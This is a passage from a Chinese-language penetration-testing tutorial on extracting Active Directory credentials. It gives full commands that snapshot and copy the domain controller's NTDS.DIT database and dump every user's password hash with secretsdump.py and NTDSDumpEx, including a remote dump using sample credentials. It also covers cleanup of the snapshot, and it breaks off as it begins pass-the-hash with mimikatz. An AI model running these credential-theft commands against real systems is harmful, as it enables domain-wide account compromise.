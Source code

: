 域账户的用户名和hash密码以域数据库的形式存放在域控制器的 `%SystemRoot%\ntds\NTDS.DIT` 文件中。

这里可以借助：ntdsutil.exe，域控制器自带的域数据库管理工具，我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库：

```powershell
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit

#加载快照
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit

#Copy文件副本
copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

将ntds.dit文件拷贝到本地利用impacket脚本dump出Hash：

```sql
secretsdump.py -ntds.dit -system system.hive LOCAL
```

![](https://image.3001.net/images/20200304/15833020816765.png)

除了借助python，还有一个NTDSDumpEx（会被360查杀的哦）：

工具地址：https://github.com/zcgonvh/NTDSDumpEx/releases

```scss
NTDSDumpEx -d ntds.dit -o domain.txt -s system.hiv    (system.hive文件获取:reg save hklm\system system.hive)
NTDSDumpEx -d ntds.dit -o domain.txt -r               (此命令适用于在域控本地执行)
```

![](https://img2020.cnblogs.com/blog/1561366/202008/1561366-20200823212336212-1217737708.png)  
![](https://img2020.cnblogs.com/blog/1561366/202008/1561366-20200823212350624-1167474990.png)

最后记得卸载删除快照：

```bash
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```

#### 3.3 secretsdump脚本直接导出域hash

为什么要再提一遍secretsdump呢，因为它可以直接导出，说白了，简单粗暴：

```perl
python secretsdump.py rabbitmask:123456@192.168.15.181
```

首先它会导出本地SAM中的hash，然后是所有域内用户的IP，全部获取成功

### 0x04 哈希传递攻击PTH

#### 4.1 工作组环境

当我们获得了一台主机的NTLM哈希值，我们可以使用mimikatz对其进行哈希传递攻击。执行完命令后，会弹出cmd窗口。
